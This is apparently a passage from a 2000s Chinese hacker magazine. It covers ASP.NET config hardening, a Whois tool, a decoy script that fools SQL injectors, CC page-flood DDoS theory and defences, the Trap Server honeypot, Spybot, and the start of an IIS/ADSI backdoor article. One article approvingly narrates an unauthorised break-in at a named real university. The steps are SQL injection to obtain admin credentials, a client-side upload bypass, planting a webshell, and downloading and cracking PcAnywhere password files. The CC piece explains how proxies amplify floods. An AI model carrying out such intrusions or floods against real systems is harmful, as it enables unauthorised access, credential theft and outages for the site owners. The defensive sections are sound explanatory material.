  </system.Web>
  <system.net>
    <!-- 用于配置 .net 运行本身 -->
  </system.net>
</configuration>
```

##### 3. 配置段介绍

- 1. `<customErrors>` 配置

```xml
<?xml version="1.0" encoding="utf-8" ?>
<configuration>
  <system.Web>
    <customErrors mode="RemoteOnly" defaultRedirect="error.htm">
      <error statusCode="404" redirect="error404.htm"/>
    </customErrors>
    <globalization requestEncoding="gb2312" responseEncoding="gb2312" />
  </system.Web>
</configuration>
```

假设黑客攻击你的 test.aspx 页面，出现错误后，ASP.NET 将给重定向页面传递一个查询字符串，这样就可以把错误信息定位到 `error.htm?aspxerrorpath=/test.aspx`，把不存在的页面定位到 `error404.htm?aspxerrorpath=/test.asp`。

- 2. `<location>` 配置

```xml
<configuration>
  <location path="aspnet1">
    <system.Web>
      <authorization>
        <allow users="Administrator" />
        <deny users="?" />
      </authorization>
    </system.Web>
  </location>
</configuration>
```

以上标记中，`<allow>` 标记定义了可以访问资源的用户 Administrator，`<deny>` 标记定义了不许访问资源的匿名用户。这样不仅目录 Aspnet 不能被匿名访问，还被应用于 Aspnet 目录的所有子目录。当访问这些目录时，将自动调出验证窗口。小提示：`?` 代表匿名用户，`*` 代表所有用户。

- 3. `<identity>` 配置

```xml
<configuration>
  <system.Web>
    <identity impersonate="true" userName=".\user" password="pw" />
  </system.Web>
</configuration>
```

默认情况下，ASP.NET 的应用程序进程有非常大的权限，但是你可以启动模拟功能，让 ASP.NET 能够以运行客户程序的用户身份来执行，其中 `<identity>` 中 `impersonate="true"` 来启动模拟，选择了 userName 和 password 属性，则 ASP.NET 总是模拟某个用户，而不是 IIS 认证的用户。

说明：关于其他配置的介绍，请参考《浅谈 ASP.NET 安全编程》，不明白的地方请到黑防论坛发帖询问。

### 来自对青岛大学的安全检测

脚本小子：前些日子 QQ 上好友发来哈工大和人民政法大学被入侵的图片，现在想想这些名牌大学的网站在众多高手的维护下应该很安全才对，可是事情好像并不是这样……

中学的时候整天游手好闲，无所事事，以致于与心目中的名牌大学失之交臂，希望在校的学生朋友们可不要学我啊。今天，忽然对此大学的网络安全来了兴趣，索性对它来一次善意的“入侵”（也就是许多前辈们所谓的安全检测）。

#### 首战告败

既然是名校，系统的漏洞暂时不考虑，我们就从它的网站入手吧。在浏览器中输入青岛大学进入该大学的网站，一看页面还不错，有好几个版块，应该存在 SQL 注……


入吧，试试先……我晕，主站竟然是 ASP.NET 的。如图1所示。


图1

对 .NET 不熟，再换个方法试试吧。

#### 再战再败

现在不是很流行旁注入侵么，我们也来试一试……再晕，竟然没有绑定其他的域名。如图2所示。


图2

没办法了，只有从它本身的网站找突破口了。回到青岛大学网站的首页，发现有许多的学院网站，呵呵，总有一个会有漏洞的吧，搜索……终于找到一所学院网站存在注入点，使用 SQL 注入工具顺利得到管理员的用户名和密码。如图3所示。


图3

过程方法在此略过不谈，不会的话请查阅以前的《黑防》。好了，现在登录后台，嗯？后台在哪里？竟然扫不到后台。如图4所示。


图4

#### 偶得小胜

好，既然扫不到后台，我们来试试 Google Hack。进入 Google 网站，我们在搜索框中输入常见的后台页面信息，如 login、admin、管理、用户管理等，并在后面加一个空格，然后输入 `site:网站的网址`，即可在指定的网站内搜索。哈哈，终于捞到了吧。如图5所示。


图5

#### 再受小挫

嘿嘿，运气来了，进入页面后有一个上传文件管理的链接。点击进入，在页面的下面有一个上传文件的选项，试试上传木马（上传ing……），哦，竟然出错了。如图6所示。


图6

真晕，不能上传我在这儿干什么，浪费我的感情。

#### 柳暗花明

总不能吊死在一棵树上吧，再找找看（finding……），看来上帝还是保佑我的，总算又让我找到一处上传的地方。如图7所示。

## 脚本攻击防范 / SCRIPT ATTACK DEFENCE


再次上传小马，气死我了，竟然只能上传图片类型的文件。如图8所示。


静下心来仔细想想，出现图8的情况一般是用 JavaScript 或 VBScript 脚本在客户端限制的，如果只是这样（即没有在服务端再次验证），我们就可以用本地提交的方法破解了。查看该上传页面的源文件，找到限制代码。如图9所示。

最后我们把文件另存为“add.htm”，保存后用浏览器打开 add.htm，再次上传我们的小马。不过问题又来了：上传成功是成功了，可我们小马的地址是什么呀？有了，用 WinSock Expert 抓包试试。如图13所示。


看来是用 JavaScript 脚本限制的，我们来改一下，加入 ASP 类型的文件。如图10所示。

啊！终于成功了。如图14所示。


当然我们也可以直接把限制的代码删除或取消按钮的单击事件，让它直接提交。如图11所示。修改完之后别忘了把 Form 的 Action 改成网站相关的地址，如图12所示。

## 唯我独尊

用我们的小马写一匹千里马（如 ASP 站长助手等）上去，即可得到 WebShell。如图15所示。剩下的就是提升权限了，用我们的千里马到处转转，发现对每个盘都没有权限浏览，被限制在网站目录中。


怎么办呢？我尝试性地在 ASP 站长助手的地址栏输入“c:\progra~1”，竟然可以浏览。我们看到了什么，如图16所示。既然有 PcAnywhere，那我们暂时就不用考虑 Serv-U 了。马上在地址栏中输入“C:\Documents and Settings\All Users\Application Data\Symantec\PcAnywhere”进入 PcAnywhere 的目录，接着我们使用 ASP 站长助手的下载功能下载它的 .cif 文件。下载完成后使用 PcAnywherepwd 来破解用户名和密码，如图17所示。


接下来该做什么就不用我说了吧，呵呵。由于本次是安全检测，所以我就到此为止了，剩下的工作就是删除我们上传的 ASP 文件，并通知网站的管理员补漏洞吧。好了，希望此文对大家有所帮助，有任何问题请到论坛与我联系。

- **脚本小子：**在大量 SQL 攻击的程序中，都出现了旁注这个功能，这里作者别出心裁用 ASP.NET 写了一个 Whois 查询的程序，可以检查出网站的详细资料。  
- **适合读者：**ASP.NET 程序员，网站管理员  
- **前置知识：**域名及 VB.NET 基础

## 轻松追查攻击根源

#### Whois.Aspx 查询系统


文／图 swords[E.S.T]

你想知道是谁在攻击你吗？你想知道网站的所有者吗？你想进行旁注攻击吗？这一切可以用一个工具轻松搞定——Whois 查询。今天我将让你看怎样实现所谓 Whois，用 VB.NET 和 ASP.NET 书写 Whois.Aspx 查询系统，来简单实现 Whois 查询的功能，希望能够抛砖引玉。

#### 关于 Whois

Whois 既是一种协议，也是一种服务，使用 Whois，就能透过 Internet 查询域名可用性，或者查明谁拥有这个域名，获知该域的已注册拥有者的信息（包括姓名、地址、联系信息等），那我们就来看看如何在 .NET 框架中实现 Whois。一般来说，每当做 Whois 查找时，你询问登记信息被保存的某种数据库。不过，Whois 数据库没被集中，因此实际域记录一般不可以从一台单个的 Whois 服务器中获得（记录域名的组织管理 Whois 服务器）。

通常，Whois 服务器在 43 端口上通过 TCP 接受连接，因此如果我们使用这个端口，我们就能与服务器联系。我有一份 Whois 服务器的详细一览表，请访问 http://wmjie.51.net/swords/blog/index.php?action=show&id=104

#### 导入 .NET 名字空间

.NET Framework 提供了一个 TcpClient 类（System.Net.Sockets namespace），属于 System.Net.Sockets 名称空间，TcpClient 类对 TCP 操作进行了抽象化，因而通过指定的 TCP 43 端口建立连接、发送 TCP 请求和获取 TCP 返回值等操作都被简化了。用它我们就可以来连接 Whois 服务器直接获取域名注册信息。首先我们需要用 Imports 语句导入 System、System.Net、System.IO 和 System.Net.Sockets 名字空间：

```asp
<%@ Import Namespace=System %>
<%@ Import Namespace=System.Net %>
<%@ Import Namespace=System.IO %>
<%@ Import Namespace=System.Net.Sockets %>
```

#### 连接 Whois 服务器

TcpClient 类提供了连接（Connecting）、发送（Sending）和接收（Receiving）数据的方法。有两种方法可以连接远程服务器。

- **方法一：**初始化一个无参数的 TcpClient 类，然后再提供主机名和端口，用 Connect 方法连接。

```vb
Dim WhoisClient As New TcpClient()
WhoisClient.Connect(request.form("WhoisServer"), 43)
```

- **方法二：**直接用主机名和端口初始化 TcpClient，这样会进行自动化连接：

```vb
Dim WhoisClient = New TcpClient(request.form("WhoisServer"), 43)
```

#### 发出查询

在已经成功连接 Whois 服务器之后，下一步将送出域名查询。先定义字符串变量 Hostname，用于接收要查询的域名。注意末尾需加 vbCrLf（C# 中通常为 `\r\n`）。

```vb
Dim Hostname As String
Hostname = request.form("domainname") & vbCrLf
```

使用 GetStream 方法获取一个 NetworkStream 对象（System.NET），用于在 connected socket 上接收和发送数据。

```vb
Dim WhoisStream As NetworkStream
WhoisStream = WhoisClient.GetStream()
```

然后初始化 StreamWriter（System.IO），将 Hostname 查询字符串写入 Whois 查询服务器，再调用 Flush 刷新缓冲区。

```vb
WhoisWriter = New StreamWriter(WhoisStream)
WhoisWriter.Write(Hostname)
WhoisWriter.Flush()
```

### 取回服务器反应数据

得到 Whois 服务器反应的方法之一是 StreamReader。第一个参数是 `WhoisClient.GetStream()` 返回的 NetworkStream 对象，第二个参数是编码方式（在 VB.NET 里可省略）。

```vb
Dim WhoisReader As StreamReader
WhoisReader = New StreamReader(WhoisStream)
```

> StreamReader 取得反馈信息的方法有 3 种：

- `Read`：一次读取一个字符  
- `ReadLine`：读取字符串直到行尾  
- `ReadToEnd`：读取字符串直到流结尾  

为了方便处理数据，选用第二种方法 `ReadLine`；同时用 `Peek()` 判断是否到流结尾（`Peek()` 不会将其返回）。可以用 Web 服务器控件 `Label(ID="lblResponse")` 显示获取的数据。

```vb
While WhoisReader.Peek() > -1
    lblResponse.Text += Server.HTMLEncode(WhoisReader.ReadLine) & "<br>"
End While
```

最后关闭 NetworkStream 流和到 Whois 服务器的 TCP 连接。

```vb
WhoisStream.Close()
WhoisClient.Close()
```

#### 总结

- 1. 用 Imports 语句导入 `System`、`System.Net`、`System.IO` 和 `System.Net.Sockets` 命名空间。  
- 2. 用 `TcpClient` 类连接 Whois 远程服务器，并送出域名查询。  
- 3. 得到 Whois 服务器反应的信息。  
- 4. 显示数据。  
- 5. 另外，用 `Try...Catch` 对 `SocketException` 类异常进行处理。  

> 常用 Whois 服务器示例：

- Whois.cnnic.net.cn（.cn）  
- Whois.networksolutions.com（.COM/.NET/.EDU）  
- Whois.ripe.net（欧洲）  
- Whois.arin.net（美洲）  

另有包含大量 Whois 服务器列表的网址，可自行添加到下拉列表。

关键代码如下：

```asp
<%@ Page Language="VB" Debug="true" %>
<%@ Import Namespace=System %>
<%@ Import Namespace=System.Net %>
<%@ Import Namespace=System.IO %>
<%@ Import Namespace=System.Net.Sockets %>

<script runat="server">
Sub queryWhois(obj As Object, e As EventArgs)
    Dim WhoisClient As New TcpClient()
    Dim WhoisStream As NetworkStream
    Dim WhoisWriter As StreamWriter
    Dim WhoisReader As StreamReader
    Dim Hostname As String
    Try
        Hostname = request.form("domainname") & vbCrLf
        WhoisClient.Connect(request.form("WhoisServer"), 43)
        WhoisStream = WhoisClient.GetStream()
        WhoisWriter = New StreamWriter(WhoisStream)
        WhoisWriter.Write(Hostname)
        WhoisWriter.Flush()
        WhoisReader = New StreamReader(WhoisStream)
        lblResponse.Text = "<pre>"
        lblResponse.Text += "<br><br>Whois.Aspx 查询系统 by swords[E.S.T]<br>" & _
            "welcome to my studio:<a href=http://wmjie.51.net/swords target=new>Savor.swords studio</a><br><br>"
        While WhoisReader.Peek() <> -1
            lblResponse.Text += Server.HTMLEncode(WhoisReader.ReadLine) & "<br>"
        End While
        lblResponse.Text += "</pre>"
        WhoisStream.Close()
        WhoisClient.Close()
    Catch ex As Exception
        lblResponse.Text = ex.Message
    End Try
End Sub
</script>
```

测试如图1所示。


图1

看到了吗？查询后的结果显示了详细的信息，Success! Cheers!

- **脚本小子：**以前遇到攻击的时候，大多数人是想办法防护。可今天就有人不但防住了黑客的入侵，还顺便耍了人家一次……
- **适合读者：**脚本爱好者、入侵爱好者  
- **前置知识：**VBS 基础

## 玩废注入娃

文/图 Lich


SQL Injection 想必大家都不陌生，由于工具的日益强大和傻瓜化，网上就多了帮闲人……事情是这样的，本城有个 MM 办了个网站……跟了 `1=1` 和 `1=2` 一看，明显的变量没过滤就带入 SQL 语句中……于是想出了以下 code：

```asp
<%
id = Request("id")
sid = Right(id,1)
uid = Right(id,3)
If sid = "'" Then
    Response("SQL 语句错误<br>SQL 语句后有未闭合的引号")
ElseIf sid = ";" Then
    Response("SQL 语句错误<br>SQL 语句操作符丢失")
End If

If uid = "1=1" Then
    Response("<iframe src=list.asp?id=1' width=100% height=100% frameborder=0></iframe>")
ElseIf uid = "1=2" Then
    Response("没有检索到相关的数据")
Else
    Response("SQL 语句错误<br>SQL 语法错误！")
End If
%>
```

这样如果那个黑客在后面跟单引号和分号的时候会看到错误，跟 `1=1` 会看到一个正常的页面，跟 `1=2` 会看到错误……其实根本没有查询，而他还在 `1=(select……)` 白费力气。

出于执行效率考虑，可以先判断 id 是否数字，不对头再交给上面的代码处理……不过我不推荐这种方法。事后我把日志给 MM 看，MM 看完说了两个字：解恨！

- **蝴蝶：**前段时间上海一家游戏娱乐公司的网站遭到了基于页面请求的 DDoS 分布式拒绝服务攻击，网站陷入完全瘫痪状态，并被黑客的匿名信勒索，金额高达10万元。而在勒索过程中，这群黑客还表示会对腾讯 QQ 等网站下手，随后 QQ“服务器维护”几天。12月5号的时候，全球 BitTorrent 服务器也受到了很强烈的 DDoS 攻击，一度陷入瘫痪。而 DDoS 攻击中最流行的也是威力最大的就是基于页面的 DDoS 以及将这个攻击理论发挥得淋漓尽致的攻击工具 CC。本文将支持邀 CC 作者和我们共同了解 CC 的相关攻击原理和防范方法，希望能让更多的朋友了解这样的攻击方式并能防范它。


适合读者：DDoS 研究员、各大站长、网络管理员  
前置知识：ASP 基本阅读能力

## 我写CC的思路

#### 防范方法

文／kiki

很多朋友都知道木桶理论，一桶水的最大容量不是由它最高的地方决定的，而是由它最低的地方决定，服务器也是一样，服务器的安全性也是由它最脆弱的地方决定的，最脆弱的地方有多危险服务器就有多危险。DDoS 也是一样，只要你的服务器存在一个很耗资源的地方，限制又不够，就马上成为别人 DDoS 的对象。比如 SYN-FLOOD，它就是利用服务器的半连接状态比完全连接状态更耗资源，而 SYN 发动方只需要不停地发包，根本不需要多少资源。

一个好的 DDoS 攻击必须是通过自己极少资源的消耗带来对方较大的资源消耗，否则发动 ICMP-FLOOD 和 UDP-FLOOD 都必须和别人一样大的带宽，对方服务器消耗多少资源自己也得贴上多少资源，效率极其低下，又很容易被人发现，现在基本没有什么人用了。

#### 攻击原理

CC 主要是用来攻击页面的。大家都有这样的经历，就是在访问论坛时，如果这个论坛比较大，访问的人比较多，打开页面的速度会比较慢——一般来说，访问的人越多，论坛的页面越多，数据库就越大，被访问的频率也越高，占用的系统资源也就相当可观。现在知道为什么很多空间服务商都说大家不要上传论坛、聊天室等东西了吧？

一个静态页面不需要服务器多少资源，甚至可以说直接从内存中读出来发给你就可以了，但是论坛就不一样了，我看一个帖子，系统需要到数据库中判断我是否有读该帖子的权限，如果有，就读出帖子里面的内容，显示出来——这里至少访问了2次数据库。如果数据库的体积有 200MB 大小，系统很可能就要在这 200MB 大小的数据空间搜索一遍，这需要多少的 CPU 资源和时间？如果我是查找一个关键字，那么时间更加可观，因为前面的搜索可以限定在一个很小的范围内，比如用户权限只查用户表，帖子内容只查帖子表，而且查到就可以马上停止查询，而搜索肯定会对所有的数据进行一次判断，消耗的时间是相当大。

CC 就是充分利用了这个特点，模拟多个用户（多少线程就是多少用户）不停地进行访问（访问那些需要大量数据操作、就是需要大量 CPU 时间的页面）。很多朋友问到，为什么要使用代理呢？因为代理可以有效地隐藏自己的身份，也可以绕开所有的防火墙，因为基本上所有的防火墙都会检测并发的 TCP/IP 连接数目，超过一定数目一定频率就会被认为是 Connection-Flood。

使用代理攻击还能很好地保持连接，我们这里发送了数据，代理帮我们转发给对方服务器，我们就可以马上断开，代理还会继续保持着和对方连接（我知道的记录是有人利用 2000 个代理产生了 35 万并发连接）。可能很多朋友还不能很好地理解，我来描述一下吧。我们假设服务器 A 对 Search.asp 的处理时间需要 0.01 秒（多线程只是时间分割，对结论没影响），也就是说它一秒可以保证 100 个用户的 Search 请求，服务器允许的最大连接时间为 60 秒，那么我们使用 CC 模拟 120 个用户并发连接，经过 1 分钟，服务器被请求了 7200 次，处理了 6000 次，于是剩下了 1200 个并发连接没有被处理。

有的朋友会说：丢连接！丢连接！问题是服务器是按先来后到的顺序丢的，这 1200 个是在最后 10 秒的时候发起的，想丢？！还早。经过计算，服务器满负开始丢连接的时候，应该是有 7200 个并发连接存在队列里，然后服务器开始 120 个/秒地丢连接，我们发动的连接也是 120 个/秒，服务器永远有处理不完的连接，服务器的 CPU 100% 并长时间保持，然后丢连接的 60 秒服务器也判断处理不过来了，新的连接也处理不了，这样服务器就达到了超级繁忙状态。

> **蝴蝶：**我们假设服务器处理 Search 只用了 0.01s，也就是 10 毫秒（这个速度你可以去各个帖子有时间显示的论坛看看），我们使用的线程也只有 120，很多服务器的丢连接时间远比 60s 长，我们使用线程远比 120 多，可怕吧。而且客户端只要发送了断开，连接的保持是代理做的，而且当服务器收到 SQL 请求，肯定会进入队列，不论连接是否已经断开，而且服务器是并发的，不是顺序执行，这样使得更多的请求进入内存请求，对服务器负担更大。

当然，CC 也可以利用这些方法对 FTP 进行攻击，也可以实现 TCP-FLOOD，这些都是经过测试有效的。

#### 防范方法

说了攻击原理，大家肯定会问，那么怎么防御？使用硬件防火墙我不知道如何防范。除非你完全屏蔽页面访问，我的方法是通过页面的编写实现防御。

- 1. 使用 Cookie 认证。这里的 Cookie 是所有连接都使用的，所以启用 IP + Cookie 认证即可。  
- 2. 利用 Session 判断，比 Cookie 更方便。可以实现 IP 认证，也可以实现防刷新模式（判断是否重复刷新）。  
- 3. 通过代理发送的 `HTTP_X_FORWARDED_FOR` 变量判断代理攻击机器的真实 IP。  
- 4. 把需要对数据库查询的语句放在 Redirect 后面，让对方必须先访问判断页再跳转。  
- 5. 在多站服务器上严格限制每个站允许的 IP 连接数和 CPU 使用时间。  

```asp
<%
if session("refresh")<>1 then
    Session("refresh")=session("refresh")+1
    Response.redirect "index.asp"
End if
%>
```

```asp
<%
Dim fsoObject
Dim tsObject
dim file
if Request.ServerVariables("HTTP_X_FORWARDED_FOR")="" then
    response.write "无代理访问"
    response.end
end if
```

```asp
Set fsoObject = Server.CreateObject("Scripting.FileSystemObject")
file = Server.mappath("CCLog.txt")
if not fsoObject.fileexists(file) then
    fsoObject.createtextfile file,true,false
end if
set tsObject = fsoObject.OpenTextFile(file,8)
tsObject.Writeline Request.ServerVariables("HTTP_X_FORWARDED_FOR") & "|" & Request.ServerVariables("REMOTE_ADDR") & "|" & now()
Set fsoObject = Nothing
Set tsObject = Nothing
response.write "有代理访问"
%>
```

这样就会生成 `CCLog.txt`，记录格式为真实 IP、代理 IP 和时间。通过统计真实 IP 出现次数可以定位攻击来源。文中还强调：CC 的防御要从代码做起，并注意 SQL 注入、请求参数认证、线程消耗等问题。

蝴蝶：最近网络上的攻击事件非常多，很多网站是重点目标。本文讨论如何追踪入侵者并缓解恶意请求带来的压力。

适合读者：网管、入侵爱好者  
前置知识：无

## Trap Server 诱饵黑客


Trap Server 是一款蜜罐软件。蜜罐可伪装成常见或非常见服务（如 Web、FTP），吸引黑客活动并进行入侵检测。文中进一步解释了 Trap 一词含义，并介绍其在安全防护中的用途。

trap：圈套、陷阱；（双轮）轻便马车；vi.设圈套，设陷阱；vt.诱捕，诱骗，捕捉，设陷，坑害，使受限制。明白了吧？这个软件分明就是一款“软件陷阱”！不要我说这款软件针对的对象了吧？

> **蝴蝶：** 我一直这么看待蜜罐的：我是猎人，我要猎一只笨熊，但是难道要我自己去找到笨熊然后和它单挑？当然我想任何一个智商没有问题的人是不会这么做的。我必然是做好诱饵，然后端着猎枪静静地守在一旁。我们这个“诱饵”，就是“蜜罐”——你没有从书上看到说笨熊喜欢吃蜂蜜？就是我一直认为的蜜罐啦！

软件可以从汉化者的主页 http://kxtm01.126.com 下载，顺便说一下汉化者虽然我不认识，但是看网站的照片是个很帅的小伙……当然水平也很不错！首先下载 Trap Server，然后安装。

由于拿到的是汉化版，不用我费功夫拿着金山词霸翻译给大家了。“文件”和“编辑”菜单压根没有说的必要。“选项”里面只有一个“开机自动运行”有调整的必要。在“服务器类别”里则有 3 个选项，分别是启动 IIS 服务器、启动 Apache 服务器、启动 EasyPHP 服务器，就是说这款软件可以模拟上述 3 种服务器。

在主界面，我们可以看到有“开始监听”“停止监听”按钮，这个就是“电源·开”和“电源·关”了。下面有是否自动保存日志的选项。监听的端口因为 Trap Server 模拟的 IIS、Apache 和 EasyPHP 都是 Web 服务器，所以都是 80 端口。主页路径默认的是安装 Trap Server 目录下面的 Web 文件夹。如果选择模拟 IIS 服务器就是在 IIS 子文件夹下面，其他的也一样，当然你可以自己另外设定别的目录。它主页的路径不能修改，你可以把你自己做的主页放到文件夹里面，这样这款蜜罐就可以作为 Web 服务器用了。我试了一下效果还不错，不过要注意如果你装了 IIS 或者别的占用端口 80 的服务，要先停掉，否则就冲突了。

> **蝴蝶：** 它默认监听的是 80 端口，不过你也可以自己修改，比如你只是想做测试用，你的计算机装了 IIS，占用了 80，那么你完全可以选择一个没有被占用的端口，比如 7626 之类的（什么？你的计算机这个端口也被占用了？！）。

我们实地测试一下效果，打开浏览器输入你服务器的 IP，访问你用 Trap Server 模拟的 Web 服务，在出现内容的同时，我们也发现在 Trap Server 主界面的左下闪动了一下，增加了几行记录！分离一些重复的，剩下的记录是这样的：

```text
<2004-11-23> <22:12:48> Listening for HTTP connections on 0.0.0.0:80.
User logged in
<2004-11-23> <22:13:03> Command GET / received from 192.168.1.9:2943
Serving file C:\Program Files\...\Web\iis\index.htm (4628 bytes / 4628 bytes sent) to 192.168.1.9:2943
User logged out
```

我们看到第一行是说在某天某时 Trap Server 开始侦听服务器的 80 端口。接下来有行为发生，比如有账号登录服务器，发送了一个命令，行为是 GET，后面是该账号的 IP 地址和使用的端口。再下面的一行就是这个命令获取的文件，是 IIS 目录下面的 index.htm 文件，发送了 4628 个字节给来自这个地址的 GET 请求，完成之后用户退出。

> **蝴蝶：** 普通情况下，当我们去 GET 一个页面的时候，可能包含大量的图片，那么就会有很多这样的记录；需要慢慢地提取有用的信息。

很多朋友都习惯使用手工的方法去判断系统版本，最常用的就是直接 Telnet 它的 80 端口。如果我们 Telnet 到服务器的 80 端口会有什么情况呢？执行 `Telnet 192.168.1.9 80`，然后 GET 并回车，我在日志里面得到如下的内容：

```text
User logged in
User logged out
```

为什么会这样呢？因为我们只是 Telnet 到服务器，没有获取任何文件的动作。如果执行下列的命令：`Telnet 192.168.1.9 80`，然后“摸黑”输入 `get index.htm`，则会有下列的日志：

```text
User logged in
<2004-11-23> <22:22:15> Command GET / received from 192.168.1.9:2966
Serving file C:\Program Files\...\Web\iis\index.htm (4628 bytes / 4628 bytes sent) to 192.168.1.9:2966
User logged out
```

看到了吗？我们输入了获取 index.htm 文件的命令，程序里就多了一些内容了……不难看懂吧？呵呵。

在跟踪入侵者这里，上面的一行是自动变化的，下面的是跟踪对象。下面的“最大值”是设置跟踪路由的跃点，比如设置成 30 就可以跟踪 30 个路由。

如果你点了“跟踪”，那么你就会在右下角这里看到下列情况（如图 3 所示）：

| Hop # | IP | Note |
|---|---|---|
| 1 | 127.0.0.1 | Reached in: 0 ms |

图3

软件会跟踪 IP 经过的路由，因为我这里是在本机做测试，没有经过路由器，所以看到的只能是这样，有外网 IP 的朋友可以测试一下效果。

在实际应用方面，Trap Server 正是现在非常流行的 SQL 注入攻击的天敌，能详细地记录各类手工的、利用工具实现的攻击方法，并完整地重显当时的入侵过程，这下网管朋友们知道如何跟踪这样的攻击了吧？

好了，就几个按钮的软件我啰啰嗦嗦地说了这么多，蝴蝶 MM 肯定又在怀疑我骗稿费了，我闪！有任何问题可以去《黑客防线》的论坛和我讨论！

蝴蝶：2004 年在全球范围内最火的攻击方式无疑是钓鱼式攻击，专家给它的定义是一种网络犯罪活动，利用垃圾邮件将用户引导入由窃贼控制的恶意网站，这些网站看起来与正常网站没有什么两样，但窃贼通常会以升级账户信息为理由要求用户提供机密资料。钓鱼式攻击已经成为 IT 安全史上遇到的最大问题之一。对国内的网民来说，钓鱼式攻击应该包含一点“国情”：恶意网页和恶意程序，虽然这些东西在世界范围内都广泛地存在，但国内是最突出的。本文就为大家提供了一个可以方便地拒绝钓鱼式攻击的工具，使用简单！

适合读者：网民、入侵者  
前置知识：无


### 用 Spybot 抵御钓鱼式攻击

文／图 盈盈

很多有好几年网龄的人都不明白，为什么只是上个网却莫名其妙地惹来一大堆广告网页窗口，这是因为多数的网页中都藏有间谍软件（Spyware）。多数的间谍软件都会通过浏览器自动下载，趁你不注意的时候将个人的隐私资料外送，这也就是不时可以听到信用卡资料在网络上被盗刷的原因之一，也是国外很火的“钓鱼式攻击”。还好现在你可以使用 SpyBot Search & Destroy（下文简称为 SpyBot）将它们给一个个揪出来！

SpyBot 是专门用来清理间谍程序的工具，就算是再难缠的对手在它的地盘也无所遁形。它可以将隐藏在系统登录档中删之不去的间谍软件揪出，可以在 Server 级别的操作系统上使用。到目前为止，它已经可以检测一万多种间谍程序（Spyware），并对其中的一千多种间谍软件进行免疫处理，可以说是杀毒软件的一个强有力的补充。而且这个软件是完全免费的，有几十个国家的语言界面，非常易于上手。最新版本为 1.3 RC5，软件大小为 4237KB，运行平台为 Windows 9x/Me/NT/2000/XP，下载地址是 http://www.spybot-updates.com/files/spybotsd13rc5.exe。

SpyBot 运行后默认的是英文界面，请点击菜单“Language”，然后选择“Chinese Simplified”选项，那么其界面就会变为简体中文了（如图1所示）。


图1

#### 检查并清除间谍软件

点击“检查问题”按钮，SpyBot 就会对系统进行全面的扫描，完成后就会看到如图2所示的界面。


图2

在我的电脑中共发现了 28 个可疑的问题（界面最底部显示），点击每项前的“+”号还可以查看详细的信息，如捆绑的应用程序、注册表中的位置等；同时在“Kind”列还会显示替换文件、Cookies、注册表键、注册表改动等情况，这样我们就能了解到这些间谍软件对系统在什么地方进行了更动。好了，现在点击图2上部的“修复选定的问题”按钮，这 28 个可疑的问题就会被修复。

#### 撤消清除

如果经过 SpyBot 部分清理系统后，发生了部分应用程序无法运行的状况，这是由于这些程序中具有间谍程式的功能页面被移除了。如果你还想继续使用的话，也还可以将它们还原。点击界面左侧的“恢复”按钮，SpyBot 便会自动列出近期被清理掉的间谍程式清单，只要点选需要还原的项目，然后点击“恢复选定的产品”按钮即可让程序恢复正常（如图3）。

#### 免疫

防止间谍程式的入侵是 SpyBot Search & Destroy 重要的先期预警功能之一，我们可以选择安装某个间谍软件或广告软件的免疫程序，这样当捆绑间谍软件或广告软件的应用程序在安装时将会认为系统中已安装，就不会影响应用程序的正常安装和运行。

## 黑客攻防苑

TOOLS ATTACK DEFENCE  
文/栏目编辑/蝴蝶 butterfly@hacker.com.cn


图3

点击界面左侧的“免疫”按钮，软件首先会检查系统上免疫功能的使用状况，如图4所示，只有 17 个有害产品已经成功免疫，1759 个免疫尚未安装。


图4

如果想全部进行免疫，只需点击图4上部的“免疫”按钮就可以了。这样 SpyBot 将为你的系统提供安全的防护，可保上网无忧。如果想撤消免疫可点击“撤消免疫”按钮。

在“Internet Explorer 预防有害的下载”窗口有一个“Enable permanent blocking of bad addresses in Internet Explorer”选项，建议选中，这样就可以阻止下载那些恶意的 IE 插件了。诸如恶意网站修改 IE 等招数在 Spybot 保护下就不会生效了。

其实 Spybot 提供了很多非常出色的防范功能，让你对电脑的安全状态了若指掌。点击菜单“Mode”→“Advanced mode”项，切换到高级模式界面（如图5）。


图5

可以看到如 ActiveX 控件（系统中安装的所有 ActiveX 程序）、BHOs（所有在 IE 中注册的助手程序）、浏览器关键页、Hosts 文件、系统启动等项目的设置。如果某个项目前面标有绿色勾，说明是安全的；而红色勾说明可能存在问题。如果没有任何标记，则说明该项目尚不在数据库中，你可以根据不同情况移除或允许其运行。

对了，为了使自己的系统更安全，一定要经常更新数据库！因为 Spybot 是依照数据库内间谍软件特征来检查系统中是否存在间谍软件的。只需点击界面左侧的“更新”按钮就 OK 了。

适合读者：脚本攻击爱好者、网管、脚本程序员  
前置知识：ASP 代码阅读能力

### 查“实”找“迹”之程序漏洞

文/图 飞天战斗猪

#### IIS 另类后门


终于由学校步入了社会，发现其实学校还是有很多值得我们留恋的地方，而工作其实蛮辛苦的，最主要的是不能经常和朋友一起去网上玩了。上周六回了趟学校，在主机房里和做网管的朋友聊天，偶然发现一个很熟的 ASP 程序在服务器的网站目录里（以前我是学校网络组的成员之一），于是连了下看看，没有给予匿名浏览的权限，不过账号勾选的是记住密码，登录成功，网页显示“添加 test2 用户成功”“添加 test2 管理员成功”。呵呵，我连管理员密码都不知道呢，打开3389，叫朋友看了下用户列表……

“怎么你个家伙每次来都没好事？快说，这次你又搞什么啦！”

“倒！你别着急，其实只是以前的一个 ASP 木马没删掉嘛。”

朋友不信，打开黑易等 ASP 木马专用查杀工具搜索了一番，还查了下各 ASP 网页的 Classid 值，又打开新版的诺顿扫描了所有盘……完了问我，你的木马呢？我打开网页，给他看代码。“晕，你这是什么木马啊，CMD 又没有，FSO 也没，连加密也没加，短短的几句代码……”这个说来就话长了……

在以前版本的 IIS 中存在两个问题。第一，缺乏一个清晰的、开放的第三方管理产品接口和一个定制的常规管理任务自动化的可编程接口；第二，需要一个控制目录服务以使网络上的服务器能够互相发现的机制。如果这些接口存在，站点创建者可以使用各种类型的工具来编写各种类型的服务器管理应用。

于是 Microsoft 在 1998 年早些时候发布了一个活动目录服务接口（Active Directory Service Interfaces，ADSI）的新版本。ADSI 和 IIS 管理对象（IIS Administration Object，IISAO）一起提供了一个用于控制目录服务和 IIS 自己的联合解决方案。

IISAO 能够被许多不同语言编制的应用所访问，其中包括 C++、Delphi、Java 和 VB。第三方站点管理工具也可以通过 ADSI 和 IISAO 更好地挂接到 IIS 和目录服务中。IISAO 也可以经由服务器端脚本引擎和 ASP 页面通过 Web 被访问。

和 IISAO 一样，ADSI 只是一组 COM 对象，能够在各自目录服务中封装对象。这在本地目录服务和应用中创建了抽象层，站点创建者可通过统一公共接口控制不同目录服务。利用这一功能可以在 Windows NT 平台实现本地或远程主机管理员权限的访问。
